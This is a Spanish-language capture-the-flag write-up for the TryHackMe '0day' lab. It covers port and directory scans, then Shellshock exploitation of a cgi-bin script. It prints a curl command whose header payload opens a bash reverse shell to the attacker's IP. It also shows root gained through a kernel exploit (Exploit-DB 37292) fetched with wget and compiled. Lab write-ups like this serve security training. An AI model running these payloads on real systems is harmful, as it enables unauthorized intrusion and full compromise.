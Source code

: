 # 0day

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/c7d93313-132b-4d1d-a439-891f724167a1)


***
- Source: https://tryhackme.com/room/0day
- OS: Linux
- Dificultad: Medium
- IP: No estática
- Temas: 
***

- Realizamos un escaneo de puertos:

~~~bash
┌──(kali💀Dedsec)-[~]
└─$ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -sV 10.10.34.44
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-08 16:10 EST
NSE: Loaded 46 scripts for scanning.
Initiating SYN Stealth Scan at 16:10
Scanning 10.10.34.44 [65535 ports]
Discovered open port 22/tcp on 10.10.34.44
Discovered open port 80/tcp on 10.10.34.44
Completed SYN Stealth Scan at 16:10, 15.75s elapsed (65535 total ports)
Initiating Service scan at 16:10
Scanning 2 services on 10.10.34.44
Completed Service scan at 16:10, 6.47s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.34.44.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 16:10
Completed NSE at 16:10, 0.87s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 16:10
Completed NSE at 16:11, 0.81s elapsed
Nmap scan report for 10.10.34.44
Host is up, received user-set (0.20s latency).
Scanned at 2024-02-08 16:10:36 EST for 24s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.7 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.25 seconds
           Raw packets sent: 76938 (3.385MB) | Rcvd: 76187 (3.047MB)
~~~

- Vemos que tenemos un servicio http por el puerto 80, decidí enumerar directorios pues no vi nada relevante en la página:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/0day]
└─$ gobuster dir -u http://0day.thm -w /usr/share/wordlists/dirb/big.txt -t 50 --add-slash --no-error -k               
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://0day.thm
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess/           (Status: 403) [Size: 285]
/.htpasswd/           (Status: 403) [Size: 285]
/admin/               (Status: 200) [Size: 0]
/backup/              (Status: 200) [Size: 1767]
/cgi-bin/             (Status: 403) [Size: 283]
/cgi-bin//            (Status: 403) [Size: 283]
/css/                 (Status: 200) [Size: 924]
/icons/               (Status: 403) [Size: 281]
/img/                 (Status: 200) [Size: 930]
/js/                  (Status: 200) [Size: 923]
/secret/              (Status: 200) [Size: 109]
/server-status/       (Status: 403) [Size: 289]
/uploads/             (Status: 200) [Size: 0]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
~~~

- Tenemos un directorio `cgi-bin`.
- Si la versión es antigua y hay un binario, podremos aplicar explotación de `ShellShock` desde el lado del servidor.

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/0day]
└─$ gobuster dir -u http://0day.thm/cgi-bin/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 --add-slash --no-error -k -x pl,sh,cgi
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://0day.thm/cgi-bin/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              pl,sh,cgi
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/test.cgi/            (Status: 200) [Size: 13]
~~~

- Tenemos un binario `test.cgi`.
- Podemos realizar una petición `GET` al binario, aplicando el ataque `shellshock`, a través de ciertos parámetros en el header.

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/0day]
└─$ curl http://0day.thm/cgi-bin/test.cgi -H 'User-Agent: () { :; }; echo; /bin/bash -c "bash -i >& /dev/tcp/10.2.60.167/4444 0>&1"'
~~~

- Nos ponemos en escucha y recibimos una conexión:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/0day]
└─$ nc -lvnp 4444                        
listening on [any] 4444 ...
connect to [10.2.60.167] from (UNKNOWN) [10.10.34.44] 44676
bash: cannot set terminal process group (858): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ 
~~~

- Realizamos un tratamiento de TTY:

~~~bash
script /dev/null -c bash
^Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184
~~~

***

<h3>PrivEsc:</h3>
- Enumerando un poco la máquina encontré algo curioso, una versión de Kernel bastante antigua:

~~~bash
www-data@ubuntu:/tmp$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
~~~

- Conozco esta versión, podemos aplicar el [exploit de kernel 37292](https://www.exploit-db.com/exploits/37292)
- Lo transferimos desde nuestra máquina hosteando un server de Python.
- En nuestra máquina atacante:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/0day]
└─$ python3 -m http.server 80
~~~

- En la máquina victima:

~~~bash
www-data@ubuntu:/tmp$ wget http://10.2.60.167/exploit.c
~~~

- Si lo intentamos compilar, vemos que nos arroja un problema:

~~~bash
www-data@ubuntu:/tmp$ gcc exploit2.c exploit2.o
gcc: error trying to exec 'cc1': execvp: No such file or directory
~~~

- Para arreglar esto, exporté el valor de la `PATH` a uno por defecto:

~~~bash
export PATH=$PATH:/usr/bin:/bin:/usr/sbin:/sbin:/usr/lowww-   
~~~

- Y una vez hecho esto, ejecutamos el exploit compilado:

~~~bash
www-data@ubuntu:/tmp$ gcc 37292.c -o exploit.o
www-data@ubuntu:/tmp$ ./exploit.o 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
